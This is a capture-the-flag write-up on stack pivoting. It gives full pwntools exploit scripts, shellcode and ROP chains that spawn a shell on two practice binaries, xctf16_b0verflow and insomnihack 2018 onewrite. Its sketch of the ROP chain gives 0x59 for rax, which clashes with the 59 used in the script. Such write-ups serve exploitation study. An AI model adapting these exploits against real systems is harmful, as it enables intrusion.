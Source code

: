 ```yaml
---
title: "stack pivot"
date: 2020-01-14T09:39:11+08:00
draft: false
---
```




## xctf16_b0verflow

checksec:

```
[*] '/home/yuuoniy/MY-AEG/nightmare/modules/17-stack_pivot/xctf16_b0verflow/b0verflow'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

Obviously, there is a stack overflow, while the overflow buffer only is 18 byte. as a result, we could utilize stack pivot technique.

we could place our shellcode on string s, then jump to here. so we need a jmp gadget. and hint() has this! (we could also use tool to find it)

```
ROPgadget --binary b0verflow | grep "sub esp"
0x080484fe : mov ebp, esp ; sub esp, 0x24 ; ret
0x080484fd : push ebp ; mov ebp, esp ; sub esp, 0x24 ; ret
0x08048500 : sub esp, 0x24 ; ret
0x08048361 : sub esp, 8 ; call 0x8048439
```

```
16_b0verflow$ ROPgadget --binary b0verflow | grep "jmp esp"
0x08048502 : and al, 0xc3 ; jmp esp
0x08048501 : in al, dx ; and al, 0xc3 ; jmp esp
0x080484ff : in eax, 0x83 ; in al, dx ; and al, 0xc3 ; jmp esp
0x08048504 : jmp esp
```



exp:

```python
from pwn import *

t = process("./b0verflow")
shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"

jmp_esp = p32(0x08048504)
pivot = p32(0x080484fd)

payload = jmp_esp+shellcode+b"\x00"*(0x20-len(shellcode))+pivot

t.sendline(payload)
t.interactive()
```



# insomnihack 2018 onewrite

```python
[*] '/home/yuuoniy/Desktop/MY-AEG/nightmare/modules/17-stack_pivot/insomnihack18_onewrite/onewrite'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

first analyze the binary, and we have the ability to do leak and overwrite, however, only one time is allowed.

ideas:

1. do partially overwrite to call do_leak multiple times.
2. utilize rop chain to overwrite .fini_array 

for the first time, we leak stack address.

set a breakpoint in do_leak return, and we could get the offset to overwrite the return address

```python
pwndbg> i f
Stack level 0, frame at 0x7fffffffdb28:
 rip = 0x7ffff7d52ab7 in do_leak; saved rip = 0x7ffff7d52b09
 called by frame at 0x7fffffffdb40
 Arglist at 0x7fffffffdb20, args: 
 Locals at 0x7fffffffdb20, Previous frame's sp is 0x7fffffffdb30
 Saved registers:
  rip at 0x7fffffffdb28
```

offset = 0x7fffffffdb28-address we leak = 0x18

```
.text:0000000000008B04                 call    do_leak
.text:0000000000008B09                 nop
```

overwrite 09 to 04, then we could call do_leak multiple times.

after doing this, we could get both stack and PIE address.

next, let's overwrite  .fini_array 

```
0x00007ffff7ff7fb0 - 0x00007ffff7ff7fc0 is .fini_array
```

let's see the content in .fini_array, there are two entries, one we overwrite by  __libc_csu_fini , the other by the address we want.



we need to construct a rop chain like this:

```
pop rdi ptr to "/bin/sh";   ret
pop rsi 0 ; ret
pop rdx 0 ; ret
pop rax 0x59 ; ret
syscall
```

using tool to find gadgets:

```
0x00000000000084fa : pop rdi ; ret
0x000000000000d9f2 : pop rsi ; ret
0x00000000000484c5 : pop rdx ; ret
0x00000000000460ac : pop rax ; ret
0x000000000000917c : syscall
```

and use add rsp gadget to pivot the stack, then execute our rop chain.

so we need to calculate the offset between the stack address we leak and value of rsp when gadget is executed.

next we also need to write 'bin/sh' to .bss,  calculate the offset by 

p address_of_bss - pie_address_we_leak

then we get the offset.

```python
from pwn import *
p = process('./onewrite')
elf = ELF('onewrite')
context.terminal=["tmux","splitw","-h"]
def leak(opt):
    p.recvuntil('>')
    p.sendline(str(opt))
    leak=p.recvline()
    leak = int(leak,16)
    return leak

def write(addr,value):
    p.recvuntil("address :")
    p.send(str(addr))
    p.recvuntil("data :")
    p.send(value)


stack_address = leak(1)
rip_addr = stack_address+0x18
csu_fini_rip = stack_address-72

write(rip_addr,p8(0x4))
do_leak_addr = leak(2)

pie_base = do_leak_addr-elf.symbols['do_leak']
fini_array_addr = pie_base+elf.symbols['__do_global_dtors_aux_fini_array_entry']
csu_fini=pie_base+elf.symbols["__libc_csu_fini"]
do_overwrite = pie_base+elf.symbols['do_overwrite']
   
write(rip_addr,p8(0x4))
leak(1)

write(fini_array_addr+8,p64(do_overwrite))
write(fini_array_addr,p64(do_overwrite))
write(csu_fini_rip,p64(csu_fini))

csu_fini_rip+=8

pop_rdi = pie_base+0x084fa
pop_rsi = pie_base+0x0d9f2
pop_rdx = pie_base+0x0484c5
pop_rax = pie_base+0x460ac
syscall = pie_base+0x917c
binsh_addr = do_leak_addr+0x2aa99b
pivot_gadget = pie_base+0x106f3

def write_qword(addr,val):
    global csu_fini_rip
    write(addr,p64(val))
    write(csu_fini_rip,p64(csu_fini))
    csu_fini_rip+=8

#gdb.attach(p)
write_qword(binsh_addr,u64("/bin/sh\x00"))

write_qword(stack_address+0xd0,pop_rdi)
write_qword(stack_address+0xd8,binsh_addr)
write_qword(stack_address+0xe0,pop_rsi)
write_qword(stack_address+0xe8,0)
write_qword(stack_address+0xf0,pop_rdx)
write_qword(stack_address+0xf8,0)
write_qword(stack_address+0x100,pop_rax)
write_qword(stack_address+0x108,59)
write_qword(stack_address+0x110,syscall)
write(stack_address-0x10,p64(pivot_gadget))

p.interactive()

```



reference:

 https://github.com/guyinatuxedo/nightmare/blob/master/modules/17-stack_pivot/insomnihack18_onewrite/readme.md 